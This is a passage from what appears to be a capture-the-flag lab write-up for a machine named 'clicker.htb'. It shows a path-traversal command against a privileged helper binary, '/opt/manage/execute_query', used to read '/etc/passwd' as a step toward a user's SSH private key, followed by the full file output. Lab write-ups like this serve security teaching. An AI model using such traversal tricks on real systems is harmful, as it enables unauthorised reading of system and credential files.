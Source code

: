 ![](/assets/obsidian/8eac6f1dde3fe9f4eceb07a523f948dd.png)


### Read jack's ssh private key

```bash
www-data@clicker:/var/www/clicker.htb/exports$ /opt/manage/execute_query 5 ../../../etc/passwd
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
jack:x:1000:1000:jack:/home/jack:/bin/bash
```